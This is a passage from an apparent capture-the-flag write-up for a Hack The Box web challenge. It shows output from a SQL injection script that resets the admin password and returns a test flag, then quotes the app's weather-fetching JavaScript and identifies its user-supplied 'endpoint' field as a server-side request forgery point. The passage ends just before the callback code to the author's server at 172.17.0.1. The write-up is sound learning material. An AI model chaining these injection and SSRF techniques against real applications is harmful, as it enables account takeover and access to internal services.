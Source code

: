 When I run this code, I can see that SQLi is successful at changing the admin's password to admin, which then allows my origional function to work, thus I can once again get the flag:

```bash
└─$ python sqli.py  
HTB{f4k3_fl4g_f0r_t3st1ng}
```

Now for the next goal I need to find a place where I can perform an Server Side Request forgery attack and have the webapp make this SQLi POST request for me.

# Goal-Find SSRF

I find a place vulnerable to such attack in **/web_weather_app/challenge/static/js/main.sh** where the webapp is sending a POST request to /api/weather which makes a request to api.openweathermap.org in order to get the weather information from my ip location and return it to the app

```js
const getWeather = async () => {

    let endpoint = 'api.openweathermap.org';

    let res  = await fetch('//ip-api.com/json/')
        .catch(() => {
            weather.innerHTML = `
                <img src='/static/host-unreachable.jpg'>
                <br><br>
                <h4>👨‍🔧 Disable blocker addons</h2>
            `;
        });

    let data = await res.json();

    let { countryCode, city } = data;

    res = await fetch('/api/weather', {
        method: 'POST',
        body: JSON.stringify({
            endpoint: endpoint,
            city: city,
            country: countryCode,
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    });
```


To test this out I write a new function that will see if I can get the webapp to perform SSRF on my own server (located at 172.17.0.1)

Using the following code, I can get the webapp to make a request back to my server:
